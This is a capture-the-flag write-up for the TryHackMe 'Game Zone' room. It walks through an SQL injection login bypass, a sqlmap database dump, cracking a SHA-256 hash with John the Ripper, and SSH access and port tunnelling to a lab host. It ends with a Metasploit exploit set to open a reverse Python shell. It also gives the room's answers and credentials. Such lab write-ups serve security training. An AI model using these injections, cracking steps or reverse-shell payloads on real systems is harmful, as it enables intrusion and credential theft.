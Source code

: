 # Game Zone

**Room Link:** [https://tryhackme.com/room/gamezone](https://tryhackme.com/room/gamezone)



### **Obtain access via SQLi**

Username field was vulnerable to SQLi,

```
Username: ' or 1=1 -- -
Password: anything
```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### **Using SQLMap**

I setup burp to intercept requests and then tried searching for something on the portal page

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Saved the request into a file called request.txt, if you highlight everything and right click you can copy to file

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

```
sqlmap -r request.txt --dbms=mysql --dump
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

**In the users table, what is the hashed password?**

ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

**What was the username associated with the hashed password?**

agent47

**What was the other table name?**

post

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

****

### **Cracking a password with JohnTheRipper**

Used the following site to idenfitfy what the hash type was. It identified that it is SHA2-256.

**Hash Analyzer:** [https://www.tunnelsup.com/hash-analyzer/](https://www.tunnelsup.com/hash-analyzer/)

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

**What is the de-hashed password?**

john was able to crack the hash ehich gave us the password videogamer124.

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=RAW-SHA256
```

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

```
ssh agent47@10.10.74.145
Password: videogamer124
```

\
**Now you have a password and username. Try SSH'ing onto the machine. What is the user flag?**

<figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

**Exposing services with reverse SSH tunnels**

**How many TCP sockets are running?**

```
ss -tulpn
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

**What is the name of the exposed CMS?**

```
ssh -L 10000:localhost:10000 agent47@10.10.74.145
Password: videogamer124
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

**What is the CMS version?**

I was able to login with the previous credentials found and find the CMS version.

```
Username: agent47
Password: videogamer124
```

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

### **Privilege Escalation with Metasploit**

****

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

```
msfconsole
search 1.580
use 1
set USERNAME agent47
set PASSWORD videogamer124
set RHOSTS 127.0.0.1
set ssl false 

set payload cmd/unix/reverse_python
set lhost 10.10.108.150
set lport 443
exploit
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>
